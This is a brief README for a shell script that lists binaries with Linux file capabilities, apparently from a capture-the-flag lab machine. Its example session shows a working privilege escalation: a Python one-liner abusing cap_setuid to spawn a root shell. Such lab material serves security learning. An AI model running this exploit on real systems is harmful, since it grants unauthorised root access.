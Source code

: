 # cap
script for searching PATH or parameters for any executables caps applied to them.
This may lead to privelage esclastion
for more -> https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

#Example
```nathan@cap:~$ ./caps.sh 
find: ‘—’: No such file or directory
find: ‘/home/nathan/—’: No such file or directory
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'                                                                                                                    
# id                                                                                                                                                                                        
uid=0(root) gid=1001(nathan) groups=1001(nathan)```
